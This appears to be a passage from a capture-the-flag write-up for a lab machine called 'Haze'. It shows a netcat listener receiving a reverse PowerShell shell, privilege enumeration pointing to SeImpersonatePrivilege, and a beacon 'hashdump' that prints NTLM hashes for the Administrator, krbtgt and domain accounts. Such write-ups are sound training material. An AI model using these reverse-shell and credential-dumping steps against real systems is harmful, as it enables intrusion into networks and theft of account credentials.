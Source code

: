 ```bash
➜  Splunk nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.11.61] 55202
PS C:\Windows\system32> whoami
haze\alexander.green
```

i checked whoami /all fastly and i saw i got it.

```bash
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### SeImpersonatePrivilege

![alt text](../assets/images/haze25.png)

and bommmm lets dump everything 

```bash
[06/26 09:16:58] beacon> hashdump
[06/26 09:16:58] [*] Tasked beacon to dump hashes
[06/26 09:16:59] [+] host called home, sent: 83198 bytes
[06/26 09:17:02] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06dc954d32cb91ac2831d67e3e12027f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
paul.taylor:1103:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
mark.adams:1104:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
edward.martin:1105:aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af:::
alexander.green:1106:aad3b435b51404eeaad3b435b51404ee:6b8caa0cd4f8cb8ddf2b5677a24cc510:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9dcbc33adec3bdc8b2334060002ce1b4:::
Haze-IT-Backup$:1111:aad3b435b51404eeaad3b435b51404ee:4de830d1d58c14e241aff55f82ecdba1:::

```